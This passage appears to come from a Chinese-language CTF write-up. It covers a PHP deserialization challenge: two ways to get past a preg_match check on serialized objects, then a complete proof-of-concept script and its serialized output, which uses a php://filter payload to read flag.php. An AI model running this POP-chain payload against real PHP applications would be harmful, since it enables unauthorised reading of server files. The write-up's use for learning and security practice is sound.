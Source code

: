 生成的pop链初步是这样的，不过这样是无法通过check函数

经过几番搜寻，发现在以前的CTF的题里面出现过这个考点

```
preg_match('/^O:\d+/')的绕过方式
1、利用加号绕过（注意在 url 里传参时 + 要编码为 %2B）#php版本大于5.6就不行了好像
2、serialize(array(a));a 为要反序列化的对象 (序列化结果开头是 a，不影响作为数组元素的 $a 的析构) #这个就可以
```

最终poc如下👇

```
<?php
class misca{
    public $gao;
    public $fei;
    public $a;
    public function miaomiao(){
        $this->a='Mikey Mouse~';
    }

}
class musca{
    public $ding;
    public $dong;

}
class milaoshu{
    public $v='php://filter/convert.base64-encode/resource=flag.php';
}

$misca=new misca();
$musca=new musca();
$milaoshu=new milaoshu();
$musca->ding=$misca;
$misca->gao=&$misca->a;
$misca->fei=$milaoshu;
echo serialize($musca);
echo PHP_EOL;
$x=serialize(array($musca));
echo $x;

#a:1:{i:0;O:5:"musca":2:{s:4:"ding";O:5:"misca":3:{s:3:"gao";N;s:3:"fei";O:8:"milaoshu":1:{s:1:"v";s:52:"php://filter/convert.base64-encode/resource=flag.php";}s:1:"a";R:4;}s:4:"dong";N;}}
```

## WEEK3

### 快问快答

